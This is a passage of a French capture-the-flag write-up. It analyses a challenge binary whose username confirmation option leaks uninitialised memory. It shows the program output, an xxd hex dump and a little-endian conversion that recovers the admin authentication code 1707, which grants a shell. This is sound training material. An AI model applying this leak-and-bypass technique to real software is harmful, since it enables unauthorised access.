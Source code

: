 La dernière fonction appelée permet de vérifier l'username et le code que nous
rentrons dans la fonction `configure_username`.

Si l'username enregistré est `admin` et que le code de vérification correspond,
un shell nous sera ouvert, nous permettant d'aller chercher le flag, sinon,
l'accès nous sera refusé.

### Vérification de la théorie avec l'exécutable local

Vérifions que notre théorie est juste avec l'exécutable tournant en local sur
notre machine Linux.

#### Exécution normale
```
Options: (1) Enter username, (2) Confirm username, (3) Done: 1
Username: admin
Options: (1) Enter username, (2) Confirm username, (3) Done: 2
Current username is: admin
Options: (1) Enter username, (2) Confirm username, (3) Done: 3
Logging in as 'admin'
Enter your authentication code: 1234
Access denied
```

#### Premier leak (username non renseigné)
```
Options: (1) Enter username, (2) Confirm username, (3) Done: 2
Current username is: ! <--------- Anormal
```

#### Analyse du leak avec `xxd` et exploitation locale

Si l'on passe l'output du programme en utilisation anormale dans l'utilitaire
`xxd`, cela nous donne :
```
00000000: 4f70 7469 6f6e 733a 2028 3129 2045 6e74  Options: (1) Ent
00000010: 6572 2075 7365 726e 616d 652c 2028 3229  er username, (2)
00000020: 2043 6f6e 6669 726d 2075 7365 726e 616d   Confirm usernam
00000030: 652c 2028 3329 2044 6f6e 653a 2043 7572  e, (3) Done: Cur
00000040: 7265 6e74 2075 7365 726e 616d 6520 6973  rent username is
00000050: 3a20 ab06 0a4f 7074 696f 6e73 3a20 2831  : ...Options: (1
00000060: 2920 456e 7465 7220 7573 6572 6e61 6d65  ) Enter username
00000070: 2c20 2832 2920 436f 6e66 6972 6d20 7573  , (2) Confirm us
00000080: 6572 6e61 6d65 2c20 2833 2920 446f 6e65  ername, (3) Done
```

Analysons la ligne `00000050`. Nous pouvons voir `3a20`, c'est à dire ':' suivi
d'un espace. Ensuite nous pouvons voir `ab06` suivi de `0a`, un saut de ligne.

L'output de l'option 2 est donc `ab06`, Nous sommes sur une architecture x86,
Cet output est écrit en little endian, c'est-à-dire "à l'envers".

```
(little_endian)0xab06 = (big_endian)0x06ab

0x06ab = 1707
```
